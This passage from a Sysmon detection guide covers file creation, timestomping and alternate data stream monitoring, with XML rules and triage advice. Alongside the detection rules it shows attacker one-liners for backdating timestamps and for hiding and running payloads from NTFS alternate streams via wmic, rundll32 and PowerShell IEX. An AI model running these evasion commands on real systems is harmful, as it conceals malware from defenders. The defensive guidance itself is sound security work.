* Files created in locations AV might not monitor as aggressively
* Post-exploitation activity after initial compromise


File creation is a **high-volume event type**. Modern Windows systems create thousands of files per hour through normal operation:
* Application updates and installations
* Temporary files for application processing
* Log files and cache files
* Browser downloads and cached data
* Windows system maintenance and updates
* User document saves and modifications

**Two main configuration approaches:**

**Approach 1 - Targeted Includes (Recommended for Most)**
Monitor only specific file types, locations, or processes known to indicate malicious activity. This is the most practical approach for most environments.

**Approach 2 - Exclusion-Based with Aggressive Filtering**
Log most file creation but exclude high-volume benign locations. This requires significant SIEM capacity and careful baseline analysis. Only suitable for organizations with extensive SIEM infrastructure.

**Hybrid Approach**
Combine both: include specific suspicious file types while excluding specific high-volume benign locations.



The file creation event fields are:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **ProcessGuid**: Process Guid of the process that created the file

* **ProcessId**: Process ID used by the OS to identify the process that created the file (child)

* **Image**: File path of the process that created the file

* **TargetFilename**: Name of the file that was created

* **CreationUtcTime**: File creation time


**Suspicious File Extensions** (commonly created by attacks):
* **Scripts**: .ps1, .vbs, .js, .jse, .bat, .cmd, .hta - Script files for execution
* **Macros**: .docm, .xlsm, .pptm - Office documents with macros
* **Executables**: .exe, .dll, .sys in unusual locations
* **Scheduled Tasks**: .xml in `C:\Windows\System32\Tasks\` or `C:\Windows\Tasks\`
* **Build Files**: .proj, .sln - MSBuild project files (T1127)
* **ClickOnce**: .application, .appref-ms - ClickOnce deployment files
* **Registry**: .reg - Registry import files
* **Dump Files**: .dmp, .mdmp - Memory dump files (LSASS dumps)
* **Archives**: .zip, .rar, .7z in temp directories (staging/exfiltration)

**Suspicious File Locations** (where attackers commonly stage files):
* **Temp Directories**: `C:\Windows\Temp\`, `C:\Users\*\AppData\Local\Temp\`
* **Public Directories**: `C:\Users\Public\`, `C:\ProgramData\`
* **Startup Folders**: `C:\Users\*\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`
* **Recycle Bin**: Unusual file creation in recycle bin directories
* **Root Directories**: `C:\`, `C:\Windows\`, `C:\Program Files\` (unusual for normal apps)

**Suspicious File Creation Patterns**:
* Office applications creating script files (malicious macro execution)
* Browsers creating executables (drive-by downloads)
* System utilities (certutil.exe, bitsadmin.exe) creating files
* Processes creating files in startup folders or scheduled task directories


**Example 1: Targeted Includes for Script Files and Execution Artifacts**

```XML
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileCreate onmatch="include">
                <!-- Detect Dangerous File Type Creation -->
                <Rule groupRelation="or">
                    <TargetFilename name="technique_id=T1170,technique_name=Mshta" condition="end with">.hta</TargetFilename>
                </Rule>

                <Rule groupRelation="or">
                    <TargetFilename name="technique_id=T1064,technique_name=Scripting" condition="end with">.bat</TargetFilename> <!--Batch scripting-->
                    <TargetFilename condition="end with">.cmd</TargetFilename> <!--Batch scripting | Credit @ion-storm -->
                    <TargetFilename condition="end with">.ps1</TargetFilename> <!--PowerShell-->
                    <TargetFilename condition="end with">.ps2</TargetFilename> <!--PowerShell-->
                    <TargetFilename condition="end with">.jse</TargetFilename> <!--Registry File-->
                    <TargetFilename condition="end with">.vb</TargetFilename> <!--VisualBasicScripting files-->
                    <TargetFilename condition="end with">.vbe</TargetFilename> <!--VisualBasicScripting files-->
                    <TargetFilename condition="end with">.vbs</TargetFilename> <!--VisualBasicScripting files-->
                </Rule>

                <!-- Detect ClickOnce -->
                <Rule groupRelation="or">
                    <TargetFilename name="ClickOnce File Execution" condition="end with">.application</TargetFilename>        <TargetFilename condition="end with">.appref-ms</TargetFilename>
                </Rule>

                <!-- MSBuild -->
                <Rule groupRelation="or">
                    <TargetFilename name="technique_id=T1127,technique_name=Trusted Developer Utilities" condition="end with">.*proj</TargetFilename><!--Microsoft:MSBuild:Script More information: https://twitter.com/subTee/status/885919612969394177-->
                    <TargetFilename condition="end with">.sln</TargetFilename>
                </Rule>

                <!-- Macro File Creation -->
                <Rule groupRelation="or">
                    <TargetFilename name="Microsoft:Office: Macro" condition="end with">.docm</TargetFilename>
                    <TargetFilename condition="end with">.pptm</TargetFilename>
                    <TargetFilename condition="end with">.xlsm</TargetFilename>
                    <TargetFilename condition="end with">.xlm</TargetFilename>
                    <TargetFilename condition="end with">.dotm</TargetFilename>
                    <TargetFilename condition="end with">.xltm</TargetFilename>
                    <TargetFilename condition="end with">.potm</TargetFilename>
                    <TargetFilename condition="end with">.ppsm</TargetFilename>
                    <TargetFilename condition="end with">.sldm</TargetFilename>
                    <TargetFilename condition="end with">.xlam</TargetFilename>
                    <TargetFilename condition="end with">.xla</TargetFilename>
                </Rule>

                <!-- DotNettoJS UsageLog -->
                <Rule groupRelation="or">
                    <TargetFilename name="technique_id=1218,technique_name=DotnettoJs" condition="contains">AppData\Local\Microsoft\CLR_v2.0\UsageLogs\</TargetFilename><!--Dotnet v2 binary started-->
                    <TargetFilename condition="end with">\UsageLogs\cscript.exe.log</TargetFilename>
                    <TargetFilename condition="end with">\UsageLogs\wscript.exe.log</TargetFilename>
                    <TargetFilename condition="end with">\UsageLogs\wmic.exe.log</TargetFilename>
                    <TargetFilename condition="end with">\UsageLogs\mshta.exe.log</TargetFilename>
                    <TargetFilename condition="end with">\UsageLogs\svchost.exe.log</TargetFilename>
                    <TargetFilename condition="end with">\UsageLogs\regsvr32.exe.log</TargetFilename>
                    <TargetFilename condition="end with">\UsageLogs\rundll32.exe.log</TargetFilename>
                </Rule>
            </FileCreate>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 2: Credential Dumping File Creation**

Monitor for memory dump files and credential theft artifacts:

```xml
<FileCreate onmatch="include">
  <!-- LSASS Dump Files -->
  <TargetFilename name="LsassDump" condition="end with">.dmp</TargetFilename>
  <TargetFilename condition="end with">.mdmp</TargetFilename>

  <!-- Registry Hive Exports (SAM/SYSTEM/SECURITY) -->
  <TargetFilename name="RegistryHiveExport" condition="contains">sam.save</TargetFilename>
  <TargetFilename condition="contains">system.save</TargetFilename>
  <TargetFilename condition="contains">security.save</TargetFilename>

  <!-- NTDS.dit Copies (Domain Controller) -->
  <TargetFilename condition="contains">ntds.dit</TargetFilename>
</FileCreate>
```

**Example 3: Executables in Suspicious Locations**

```xml
<FileCreate onmatch="include">
  <!-- Executables in Temp Directories -->
  <Rule name="ExeInTemp" groupRelation="and">
    <TargetFilename condition="contains">\Temp\</TargetFilename>
    <TargetFilename condition="end with">.exe</TargetFilename>
  </Rule>

  <!-- Executables in Public Directories -->
  <Rule groupRelation="and">
    <TargetFilename condition="contains">C:\Users\Public\</TargetFilename>
    <TargetFilename condition="end with">.exe</TargetFilename>
  </Rule>

  <!-- DLLs in Suspicious Locations -->
  <Rule groupRelation="and">
    <TargetFilename condition="contains">\AppData\</TargetFilename>
    <TargetFilename condition="end with">.dll</TargetFilename>
  </Rule>
</FileCreate>
```

**Example 4: Persistence Artifact Detection**

```xml
<FileCreate onmatch="include">
  <!-- Startup Folder Files -->
  <TargetFilename name="StartupPersistence" condition="contains">\Start Menu\Programs\Startup\</TargetFilename>

  <!-- Scheduled Task XML Files -->
  <TargetFilename name="ScheduledTaskCreation" condition="begin with">C:\Windows\System32\Tasks\</TargetFilename>
  <TargetFilename condition="begin with">C:\Windows\Tasks\</TargetFilename>
</FileCreate>
```


If using an exclusion-based strategy (log most, exclude benign high-volume), consider these exclusions. **Use with caution** and validate volume reduction:

```xml
<FileCreate onmatch="exclude">
  <!-- Windows Update and System Files -->
  <TargetFilename condition="begin with">C:\Windows\SoftwareDistribution\</TargetFilename>
  <TargetFilename condition="begin with">C:\Windows\WinSxS\</TargetFilename>
  <TargetFilename condition="begin with">C:\Windows\Prefetch\</TargetFilename>

  <!-- Browser Cache (High Volume) -->
  <TargetFilename condition="contains">\Google\Chrome\User Data\</TargetFilename>
  <TargetFilename condition="contains">\Mozilla\Firefox\Profiles\</TargetFilename>
  <TargetFilename condition="contains">\Microsoft\Edge\User Data\</TargetFilename>

  <!-- Application Logs and Caches -->
  <TargetFilename condition="contains">\AppData\Local\Microsoft\Windows\WebCache\</TargetFilename>
  <TargetFilename condition="contains">\AppData\Local\Microsoft\Windows\INetCache\</TargetFilename>
</FileCreate>
```

**Warning**: Never completely exclude:
* Executable files (.exe, .dll, .sys) from any location
* Script files (.ps1, .vbs, .bat, .js) from any location
* Scheduled task directories
* Startup folders


When reviewing file creation events, prioritize these patterns:

**1. Office Applications Creating Scripts**
* WINWORD.EXE, EXCEL.EXE, or POWERPNT.EXE creating .ps1, .vbs, .bat, or .js files
* Strong indicator of malicious macro execution
* Cross-reference with process creation events to see if the script was executed

**2. Browsers Creating Executables**
* chrome.exe, msedge.exe, or firefox.exe creating .exe or .dll files
* May indicate drive-by downloads or malicious file downloads
* Legitimate downloads typically go to Downloads folder with user interaction

**3. System Utilities Downloading Files**
* certutil.exe, bitsadmin.exe, or powershell.exe creating files (especially .exe)
* Common living-off-the-land technique for downloading attack tools

**4. Memory Dump File Creation**
* Any .dmp or .mdmp file creation, especially if not from legitimate debugging tools
* Check source process - is it ProcDump, Task Manager, or an unknown tool?
* Check file location - LSASS dumps in temp directories are highly suspicious

**5. Files in Startup or Scheduled Task Directories**
* Any file creation in startup folders or task directories
* Cross-reference with registry events for persistence detection
* Validate legitimacy of the creating process

**6. Executable Files in Uncommon Locations**
* .exe or .dll files in temp directories, ProgramData, or user profile directories
* Legitimate software installs to Program Files or ProgramData with installers
* Malware often stages in temp or user directories

**7. Archives in Temp Directories**
* .zip, .rar, or .7z files created in temp locations
* May indicate data staging for exfiltration
* Large files or multiple archives in sequence are particularly suspicious

**8. Unusual Process Creating Files**
* Processes running from temp directories creating files
* System processes creating files in unusual locations
* Unsigned processes creating executables or scripts


File creation monitoring can impact performance if misconfigured:

**Volume Management**:
* Targeted includes: Expect 100-1000 events/day/host
* Exclusion-based with aggressive filtering: May see 5000-10000 events/day/host
* Test configurations in lab before production deployment

**Performance Tips**:
* Avoid monitoring entire drives or broad wildcards
* Prefer specific file extensions and paths over broad patterns
* Consider disabling file creation monitoring on extremely high-I/O servers (databases, file servers)
* Use "end with" for extensions rather than "contains" when possible

**Typical Well-Configured Volume**:
* Workstations: 50-200 events/day
* Servers: 100-500 events/day
* Domain Controllers: 200-1000 events/day (higher due to replication)


Validate your file creation monitoring:

1. **Macro Test**: Create a test Excel file with macro that writes a .ps1 file
2. **Download Test**: Download a test executable via browser
3. **Credential Dump Simulation**: Use ProcDump on LSASS in lab to verify .dmp detection
4. **Persistence Test**: Create a file in startup folder
5. **Volume Baseline**: Monitor event volume for 1-2 weeks to establish normal patterns
6. **Performance Check**: Verify Sysmon is not consuming excessive CPU or I/O

File creation monitoring, when properly configured with targeted includes for high-value file types and locations, provides critical visibility into malware staging, persistence establishment, and credential theft. The key is balancing comprehensive coverage with manageable event volume through thoughtful selection of monitored file types and locations.

### File Create Time Change


Sysmon will log **EventID 2** when a file's creation timestamp is modified, a technique commonly called "timestomping." This is a **low-volume, high-value event type** that detects anti-forensics activity where attackers modify file timestamps to hide malicious files by making them appear legitimate or to blend in with existing files in a directory.


Timestomping is a classic anti-forensics technique used to evade detection and complicate incident response:

**Hiding Malicious Files**: Attackers modify file timestamps to make malicious files appear legitimate:
* Setting creation time to match other files in `C:\Windows\System32\` to blend in
* Backdating files to make them appear as part of the original system installation
* Matching timestamps of legitimate applications to avoid suspicion

**Evading Timeline Analysis**: Forensic investigators rely on file timestamps to construct attack timelines. Timestomping disrupts this analysis by:
* Making recently created malware appear old
* Hiding the true time of file creation or modification
* Breaking the correlation between related attacker activities

**Persistence Mechanism Concealment**: Attackers timestamp persistence mechanisms (scheduled tasks, startup folder items, registry run keys) to appear as if they've existed for a long time, making them less likely to be noticed during security reviews.

**MITRE ATT&CK Mapping**:
* **T1070.006 - Indicator Removal on Host: Timestomp** - Primary technique
* **T1564 - Hide Artifacts** - General technique category for hiding evidence


Timestomping helps attackers in several ways:

1. **Evades "Recent Files" Detection**: Security tools and analysts often filter for recently created/modified files. Timestomped files won't appear in these searches.

2. **Blends with Legitimate Files**: When all files in `C:\Windows\System32\` were created during Windows installation except one created yesterday, that one file stands out. Timestomping eliminates this tell.

3. **Complicates Forensics**: Without accurate timestamps, investigators struggle to:
   - Determine when compromise occurred
   - Correlate file creation with other events
   - Establish attacker dwell time

4. **Defeats SIEM Time-Based Queries**: Many detection rules look for file creation within specific time windows. Timestomping can evade these.


File creation time modification is rare in normal operations:
* **Normal operations**: Some applications legitimately modify timestamps (installers, cloud sync tools like OneDrive, backup software)
* **Typical volume**: 10-50 events per day, mostly from known applications
* **Servers**: Near-zero volume outside of software installations

This low volume makes timestomping detection ideal for a **targeted include approach** focusing on user directories and suspicious file types, or an **exclusion-based approach** that logs everything except known-good applications.


Attackers use various tools and methods to modify file timestamps:

**PowerShell**:
```powershell
$(Get-Item malware.exe).creationtime=$(Get-Date "01/01/2020 12:00 am")
```

**Command Line Tools**:
* `timestomp.exe` (from Metasploit)
* `NewFileTime.exe`
* Custom scripts and tools

**Windows API**:
* `SetFileTime()` API calls from custom malware
* Can modify creation, modification, and access times

Sysmon monitors file system API calls and detects when the creation time is changed from its original value.


When reviewing file creation time change events, prioritize investigation of:

**1. Timestomping in System Directories**
* Files in `C:\Windows\`, `C:\Windows\System32\`, or `C:\Windows\SysWOW64\`
* Particularly suspicious if done by non-system processes
* System files should rarely have timestamps modified post-installation

**2. Timestomping in User Directories**
* Files in `C:\Users\<username>\AppData\` directories
* Downloads folder (`C:\Users\<username>\Downloads\`)
* Startup folders and other persistence locations
* Desktop and Documents folders

**3. Executable and Script Files**
* `.exe`, `.dll`, `.sys` files being timestomped
* PowerShell scripts (`.ps1`, `.psm1`)
* Batch files, VBScript, JavaScript
* Any file that can execute code

**4. Suspicious Processes Performing Timestomping**
* PowerShell, CMD, or scripting engines modifying timestamps
* Processes from temp directories
* Unknown or recently created processes
* Tools known for timestomping (`timestomp.exe`, `NewFileTime.exe`)

**5. Multiple Files Timestomped Simultaneously**
* Batch timestomping operations (attacker cleaning up multiple files)
* All files set to same timestamp (common attacker pattern)
* Rapid sequence of timestamp modifications

**6. Timing and Context**
* Timestomping shortly after file creation (covering tracks)
* Correlates with other suspicious activity (malware execution, lateral movement)
* Occurs during off-hours or after compromise indicators

**7. Timestamp Anomalies**
* CreationTime set to far in the past (e.g., 1999, Windows XP era)
* CreationTime set to match Windows installation date
* Identical timestamps across multiple unrelated files


The file creation time change event fields are:

* **RuleName**: Name of rule that triggered the event
* **UtcTime**: Time in UTC when the timestamp modification was detected
* **ProcessGuid**: Process GUID of the process that changed the file creation time
* **ProcessId**: Process ID of the process changing the file creation time
* **Image**: File path of the process that changed the file creation time
* **TargetFilename**: Full path of the file whose timestamp was modified
* **CreationUtcTime**: New (modified) creation time of the file
* **PreviousCreationUtcTime**: Original creation time before modification

The **PreviousCreationUtcTime** and **CreationUtcTime** fields are critical - compare them to understand how the timestamp was changed and whether it's suspicious.


**Example 1: Monitor User Directories (Recommended)**

Focus on timestomping in user directories where attackers commonly operate:

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileCreateTime onmatch="include">
                <!-- Monitor all timestamp changes in user directories -->
                <TargetFilename condition="begin with">C:\Users\</TargetFilename>
            </FileCreateTime>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 2: Monitor High-Value File Types and Locations**

Target specific file types and system directories:

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileCreateTime onmatch="include">
                <!-- User directories -->
                <TargetFilename condition="begin with">C:\Users\</TargetFilename>

                <!-- System directories (very suspicious) -->
                <TargetFilename condition="begin with">C:\Windows\System32\</TargetFilename>
                <TargetFilename condition="begin with">C:\Windows\SysWOW64\</TargetFilename>

                <!-- Executable and script files anywhere -->
                <Rule groupRelation="or">
                    <TargetFilename condition="end with">.exe</TargetFilename>
                    <TargetFilename condition="end with">.dll</TargetFilename>
                    <TargetFilename condition="end with">.sys</TargetFilename>
                    <TargetFilename condition="end with">.ps1</TargetFilename>
                    <TargetFilename condition="end with">.bat</TargetFilename>
                    <TargetFilename condition="end with">.cmd</TargetFilename>
                    <TargetFilename condition="end with">.vbs</TargetFilename>
                </Rule>
            </FileCreateTime>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 3: Exclusion-Based Approach (Log All, Exclude Known-Good)**

Log all timestamp modifications but exclude applications that legitimately change timestamps:

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="Include All Timestomping" groupRelation="or">
            <FileCreateTime onmatch="include">
                <!-- Include all timestamp modifications -->
                <TargetFilename condition="begin with">C:\</TargetFilename>
            </FileCreateTime>
        </RuleGroup>

        <RuleGroup name="Exclude Known-Good Applications" groupRelation="or">
            <FileCreateTime onmatch="exclude">
                <!-- Cloud sync tools -->
                <Image condition="end with">OneDrive.exe</Image>
                <Image condition="contains">Dropbox\</Image>
                <Image condition="contains">Google Drive\</Image>

                <!-- Installers and update processes -->
                <Image condition="contains">setup</Image>
                <Image condition="contains">install</Image>
                <Image condition="contains">Update\</Image>
                <Image condition="end with">redist.exe</Image>
                <Image condition="is">C:\Windows\System32\msiexec.exe</Image>
                <Image condition="is">C:\Windows\servicing\TrustedInstaller.exe</Image>

                <!-- System processes -->
                <Image condition="is">C:\Windows\System32\backgroundTaskHost.exe</Image>
                <Image condition="is">C:\Windows\System32\svchost.exe</Image>

                <!-- Backup software (add specific tools as discovered) -->
                <!-- <Image condition="contains">Backup\</Image> -->
            </FileCreateTime>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 4: Detect Suspicious Processes Doing Timestomping**

Focus on processes commonly used by attackers:

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileCreateTime onmatch="include">
                <!-- PowerShell timestomping -->
                <Image condition="end with">powershell.exe</Image>
                <Image condition="end with">pwsh.exe</Image>

                <!-- Command line utilities -->
                <Image condition="end with">cmd.exe</Image>
                <Image condition="end with">cscript.exe</Image>
                <Image condition="end with">wscript.exe</Image>

                <!-- Known timestomping tools -->
                <Image condition="contains">timestomp</Image>
                <Image condition="contains">NewFileTime</Image>

                <!-- Suspicious locations -->
                <Image condition="contains">\Temp\</Image>
                <Image condition="contains">\AppData\Local\Temp\</Image>
                <Image condition="contains">\Downloads\</Image>
            </FileCreateTime>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```


When you detect a file creation time change event:

1. **Identify the File**: Check `TargetFilename` - what file was timestomped?
   - Is it an executable, script, or DLL?
   - Is it in a sensitive location (System32, user startup folders)?

2. **Analyze the Process**: Check `Image` - what process modified the timestamp?
   - Is it a known-good application (installer, cloud sync)?
   - Is it suspicious (PowerShell, unknown tool)?

3. **Compare Timestamps**:
   - `PreviousCreationUtcTime`: When was the file actually created?
   - `CreationUtcTime`: What timestamp was it changed to?
   - Is the new timestamp trying to make the file look old?

4. **Correlate with Other Events**:
   - Check Process Creation events: Was the file recently created?
   - Check File Creation events: What process created the file originally?
   - Check Network Connections: Did the process that created the file connect to external IPs?

5. **Examine the File**:
   - Hash the timestomped file and check threat intelligence
   - Analyze the file for malicious indicators
   - Check if it's signed and by whom

6. **Timeline Analysis**:
   - When was the file really created (PreviousCreationUtcTime)?
   - What else happened around that time?
   - Does this correlate with known compromise indicators?


Not all timestamp modifications are malicious. Legitimate reasons include:

* **Cloud Sync Tools**: OneDrive, Dropbox, Google Drive modify timestamps to match server-side timestamps
* **Backup/Restore Operations**: Backup tools may restore original timestamps when restoring files
* **Software Installers**: Some installers set specific timestamps on installed files
* **Development Tools**: Version control systems (Git) may restore file timestamps during checkout
* **Archive Extraction**: Extracting ZIP/RAR files often restores original timestamps

The key is to baseline your environment and understand what's normal for your systems, then investigate deviations.


1. **Start with User Directories**: Monitoring `C:\Users\` captures most attacker activity while minimizing noise
2. **Baseline Your Environment**: Understand which applications legitimately modify timestamps
3. **Progressive Exclusions**: Start broad, add exclusions for verified legitimate applications
4. **Focus on Executables**: Prioritize monitoring of `.exe`, `.dll`, `.ps1` timestomping
5. **Correlate with Other Events**: Timestomping alone may be benign; correlation with other suspicious activity increases confidence
6. **Regular Review**: Periodically review timestomping events to identify new patterns or threats


**Attacker Evasion Techniques:**
* Some attackers avoid timestomping entirely, knowing it's monitored
* Can set timestamps to random values throughout a time range to appear less suspicious
* May use kernel-mode rootkits to hide timestomping from Sysmon

**Sysmon Limitations:**
* Only detects modification of creation time, not modification or access times (Windows doesn't log those separately)
* Cannot detect timestomping that occurs before Sysmon is installed
* Kernel-mode tampering may evade detection


File creation time change monitoring (EventID 2) detects a common anti-forensics technique used by sophisticated attackers. The low event volume and high detection value make it ideal for:
* Targeted monitoring of user directories
* Detecting timestomping of executable files
* Identifying anti-forensics activity during incident response
* Complementing other detection mechanisms in a layered defense strategy

When configured properly with appropriate exclusions for legitimate applications, timestomping detection provides high-fidelity alerts with minimal false positives.

### File Stream Creation Hash


Sysmon will log **EventID 15** for the creation of Alternate Data Streams (ADS) on NTFS filesystems. This is a **moderate-volume event type** that detects both malicious use of ADS for hiding payloads and provides valuable forensic information through Mark of the Web (MOTW) tracking. Alternate Data Streams are a powerful but often overlooked detection opportunity.


Alternate Data Streams provide unique detection and forensic capabilities:

**Malicious Payload Hiding**: Attackers use ADS to hide malicious content:
* Executables hidden in alternate streams (not visible in directory listings)
* Scripts (PowerShell, VBScript, JScript) stored in ADS for execution
* Malware components and configuration files hidden from casual inspection
* Tools and utilities concealed on compromised systems

**Mark of the Web (MOTW) Forensics**: Windows Internet Explorer and other browsers create a `Zone.Identifier` ADS on downloaded files containing:
* **ZoneId**: Security zone of download (Internet, Intranet, Trusted, etc.)
* **ReferrerUrl**: The URL that linked to the download
* **HostUrl**: The URL the file was downloaded from

This data is **critical forensic evidence** for tracking:
* How malware was delivered (phishing email, malicious website)
* The origin of attacker tools and payloads
* User downloads during compromise investigations
* Attribution and infrastructure mapping

**Defense Evasion**: ADS allows attackers to:
* Bypass file extension filters (store .exe in ADS of .txt file)
* Hide from antivirus scans that don't inspect ADS
* Evade file integrity monitoring on the main data stream
* Conceal backdoors and persistence mechanisms

**MITRE ATT&CK Mapping**:
* **T1564.004 - Hide Artifacts: NTFS File Attributes** - Primary ADS abuse technique
* **T1027 - Obfuscated Files or Information** - Hiding via ADS
* **T1140 - Deobfuscate/Decode Files or Information** - Extracting from ADS


Each NTFS file record contains multiple attributes that define different aspects of the file:
* **$STANDARD_INFORMATION** - Timestamps and attributes
* **$FILE_NAME** - File name
* **$DATA** - File content (can have multiple streams)
* **$INDEX_ROOT**, **$BITMAP**, **$INDEX_ALLOCATION** - Directory structures
* **$ATTRIBUTE_LIST** - List of all attributes

**Alternate Data Streams** are implemented by having multiple $DATA attributes:
* **Default stream**: Unnamed stream (the normal file content)
* **Alternate streams**: Named streams (additional hidden content)

**Example**: A file `document.txt` can have:
* Default stream: `document.txt` (visible content)
* Named stream: `document.txt:hidden.exe` (hidden executable)
* MOTW stream: `document.txt:Zone.Identifier` (download origin info)

**Viewing ADS with PowerShell**:
```powershell
Get-Item file.txt -Stream *

Get-Item downloaded.exe -Stream *
```


File with a second named stream:


**Hiding Executables**:
```cmd
type malware.exe > innocent.txt:hidden.exe

wmic process call create "C:\innocent.txt:hidden.exe"
```

**Hiding Scripts**:
```powershell
Get-Content malicious.ps1 | Set-Content .\document.docx:payload.ps1 -Stream payload.ps1

powershell -Command "Get-Content .\document.docx:payload.ps1 -Stream payload.ps1 | IEX"
```

**Execution Examples from ADS**:
* **Rundll32**: `rundll32.exe file.txt:malicious.dll,EntryPoint`
* **Cscript**: `cscript.exe file.txt:script.vbs`
* **PowerShell**: `powershell Get-Content file.txt:script.ps1 -Stream script.ps1 | IEX`

More execution techniques: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f (by Oddvar Moe)


When files are downloaded using Windows APIs (`urlmon.dll`), a `Zone.Identifier` ADS is created with forensic metadata:

**Example MOTW Content**:
```
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://malicious-site.com/landing
HostUrl=https://malicious-site.com/payload.exe
```

**ZoneId Values**:
* 0 = Local computer
* 1 = Local intranet
* 2 = Trusted sites
* 3 = Internet
* 4 = Restricted sites

**Forensic Value**:
* Track phishing email links (ReferrerUrl shows email gateway URL)
* Identify malware download sites (HostUrl)
* Correlate with network logs for full attack chain
* Determine if file was locally created (no Zone.Identifier) or downloaded

**Important**: Attackers commonly delete Zone.Identifier streams to hide download origin. Detecting Zone.Identifier deletion is a strong indicator of anti-forensics activity.


ADS creation volume varies by environment:
* **Workstations with active browsing**: Moderate-to-high volume (100-500 events/day)
* **Servers**: Low volume outside of software downloads
* **Most events**: Zone.Identifier streams from browsers and email clients

**MOTW Generation Pattern**: Downloading a file typically generates **6 events** as `urlmon.dll` progressively writes the Zone.Identifier stream during download. This is normal and provides detailed forensic timeline.


When reviewing file stream creation events, prioritize investigation of:

**1. Non-MOTW Alternate Streams**
* Any stream name **other than** `Zone.Identifier`
* Streams with executable names (`.exe`, `.dll`, `.ps1`, `.bat`, `.vbs`)
* Streams created by suspicious processes
* **High priority** - These are almost always malicious or very unusual

**2. Executable Content in ADS**
* Check the **Hash** field - if populated, the stream contains executable code
* Cross-reference hash with threat intelligence
* Any PE executable stored in ADS is highly suspicious

**3. Script Files in ADS**
* PowerShell scripts (`.ps1`)
* VBScript, JScript files
* Batch files, command scripts
* These enable fileless execution techniques

**4. Suspicious Processes Creating ADS**
* PowerShell, CMD creating non-MOTW streams
* Processes from temp directories
* Office applications (macros creating ADS)
* Unknown executables

**5. MOTW Forensics (Download Tracking)**
* Review **TargetFilename** to identify what was downloaded
* Check **Content** field for Zone.Identifier data (HostUrl, ReferrerUrl)
* **ZoneId=3** (Internet) downloads of executables are high-priority
* Correlate with network logs using HostUrl
* Track user downloads during investigations

**6. Timing and Context**
* ADS creation shortly after file creation
* Multiple ADS creations in sequence (staging payloads)
* ADS creation during suspected compromise timeline
* Downloads from recently created or suspicious domains


The file stream creation event fields are:

* **RuleName**: Name of rule that triggered the event
* **UtcTime**: Time in UTC when stream was created
* **ProcessGuid**: Process GUID of the process that created the named file stream
* **ProcessId**: Process ID of the process that created the stream
* **Image**: File path of the process that created the stream
* **TargetFilename**: Full path of the file (including stream name after `:`)
* **CreationUtcTime**: File creation time (not stream creation time)
* **Hash**: Full hash of the stream contents (if stream contains executable code)
* **Contents**: For text streams <1KB, the actual stream contents are logged (MOTW data)

**Critical Field**: **Contents** field captures Zone.Identifier data, providing HostUrl and ReferrerUrl for forensic tracking.


**Example 1: Exclusion-Based (Recommended for Workstations)**

Log all ADS creation but exclude browsers and email clients creating MOTW streams:

```xml
<Sysmon schemaversion="4.22">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileCreateStreamHash onmatch="exclude">
            <!-- Web Browsers (MOTW generation) -->
            <Image condition="is">C:\Program Files\Google\Chrome\Application\chrome.exe</Image>
            <Image condition="is">C:\Program Files (x86)\Google\Chrome\Application\chrome.exe</Image>
            <Image condition="is">C:\Program Files\Mozilla Firefox\firefox.exe</Image>
            <Image condition="is">C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe</Image>

            <!-- Edge Download Broker -->
            <Image condition="is">C:\Windows\System32\browser_broker.exe</Image>

            <!-- Internet Explorer -->
            <Image condition="is">C:\Program Files\Internet Explorer\iexplore.exe</Image>
            <Image condition="is">C:\Program Files (x86)\Internet Explorer\iexplore.exe</Image>

            <!-- Email Clients (MOTW on attachments) -->
            <Image condition="end with">OUTLOOK.EXE</Image>
         </FileCreateStreamHash>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

**Example 2: Detect Only Malicious ADS (Not MOTW)**

Focus on non-Zone.Identifier streams which are almost always malicious:

```xml
<Sysmon schemaversion="4.22">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileCreateStreamHash onmatch="exclude">
            <!-- Exclude only Zone.Identifier (MOTW) streams -->
            <TargetFilename condition="end with">:Zone.Identifier</TargetFilename>
         </FileCreateStreamHash>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

This configuration captures **only suspicious ADS creation**, not normal download tracking.

**Example 3: Monitor Executable Downloads (Forensic Tracking)**

Capture MOTW for executable files while excluding other downloads:

```xml
<Sysmon schemaversion="4.22">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileCreateStreamHash onmatch="include">
            <!-- Track downloads of executables and scripts -->
            <Rule groupRelation="and">
               <TargetFilename condition="end with">:Zone.Identifier</TargetFilename>
               <Rule groupRelation="or">
                  <TargetFilename condition="contains">.exe:</TargetFilename>
                  <TargetFilename condition="contains">.dll:</TargetFilename>
                  <TargetFilename condition="contains">.ps1:</TargetFilename>
                  <TargetFilename condition="contains">.bat:</TargetFilename>
                  <TargetFilename condition="contains">.vbs:</TargetFilename>
                  <TargetFilename condition="contains">.js:</TargetFilename>
                  <TargetFilename condition="contains">.hta:</TargetFilename>
                  <TargetFilename condition="contains">.msi:</TargetFilename>
               </Rule>
            </Rule>
         </FileCreateStreamHash>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

**Example 4: Comprehensive - Detect Malicious ADS + Track Executable Downloads**

Best of both worlds - catch ADS abuse and track executable downloads:

```xml
<Sysmon schemaversion="4.22">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileCreateStreamHash onmatch="include">
            <!-- Capture all ADS creation -->
            <TargetFilename condition="contains">:</TargetFilename>
         </FileCreateStreamHash>
      </RuleGroup>

      <RuleGroup name="" groupRelation="or">
         <FileCreateStreamHash onmatch="exclude">
